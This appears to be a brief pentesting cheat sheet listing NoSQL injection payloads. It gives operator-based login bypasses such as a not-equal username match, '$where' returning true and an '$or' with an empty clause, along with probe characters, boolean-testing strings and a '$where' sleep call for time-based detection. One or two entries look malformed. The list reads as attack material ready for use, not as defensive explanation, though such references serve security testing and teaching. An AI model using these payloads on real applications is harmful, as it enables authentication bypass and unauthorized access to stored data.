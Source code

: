NoSQL Payload
========================================

Common Payloads
----------------------------------------
- Bypassing restrictions
- ``{"username": "user"}`` => ``{"username": {"ne": "fakeuser"}}``
- ``{"$where":  "return true"}``
- Test characters
- ``'"\/$[].>``
- Commonly used in Boolean testing
- `` `" $ it ": -1` `
- ``{"$in": []}``
- ``{"$where":  "return true"}``
- ``{"$or": [{},{"foo":"1"}]}``
- time
- ``{"$where":  "sleep(100)"}``
